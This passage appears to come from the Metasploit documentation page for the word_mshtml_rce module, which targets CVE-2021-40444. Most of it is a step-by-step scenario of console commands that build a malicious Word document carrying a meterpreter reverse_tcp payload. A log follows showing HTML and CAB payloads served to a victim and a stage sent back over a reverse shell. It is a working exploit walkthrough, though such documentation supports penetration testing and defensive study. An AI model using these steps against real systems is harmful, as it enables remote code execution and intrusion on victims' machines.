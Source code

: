 A DOCX file that will be used as a template to build the exploit.

## Targets
* `Hosted`: Prepares the docx file and CAB file, then launches an http server to
  serve the CAB file and deliver the payload.

## Scenarios

### Basic use

1. Generate the exploit as following.

    ```
    msf6 exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
    [*] Using configured payload windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set SRVHOST 172.20.7.36
    SRVHOST => 172.20.7.36
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set LHOST 172.20.7.36
    LHOST => 172.20.7.36
    msf6 exploit(windows/fileformat/word_mshtml_rce) > set VERBOSE true
    VERBOSE => true
    msf6 exploit(windows/fileformat/word_mshtml_rce) > run
    [*] Using URL: http://172.20.7.36:8080/x58G8ZxLbZ
    [*] Server started.
    [*] CVE-2021-40444: Generate a malicious docx file
    [*] Using template '/opt/metasploit/data/exploits/cve-2021-40444.docx'
    [*] Parsing item from template: [Content_Types].xml
    [*] Parsing item from template: _rels/
    [*] Parsing item from template: _rels/.rels
    [*] Parsing item from template: docProps/
    [*] Parsing item from template: docProps/core.xml
    [*] Parsing item from template: docProps/app.xml
    [*] Parsing item from template: word/
    [*] Parsing item from template: word/theme/
    [*] Parsing item from template: word/theme/theme1.xml
    [*] Parsing item from template: word/styles.xml
    [*] Parsing item from template: word/settings.xml
    [*] Parsing item from template: word/document.xml
    [*] Parsing item from template: word/_rels/
    [*] Parsing item from template: word/_rels/document.xml.rels
    [*] Parsing item from template: word/fontTable.xml
    [*] Parsing item from template: word/webSettings.xml
    [*] Injecting payload in docx document
    [*] Finalizing docx 'msf.docx'
    [+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
    ```

2. Execute the DOCX document on a remote vulnerable system.

    ```
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: cc1d5e18
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 620a35dd
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] Sending stage (200262 bytes) to 172.20.7.36
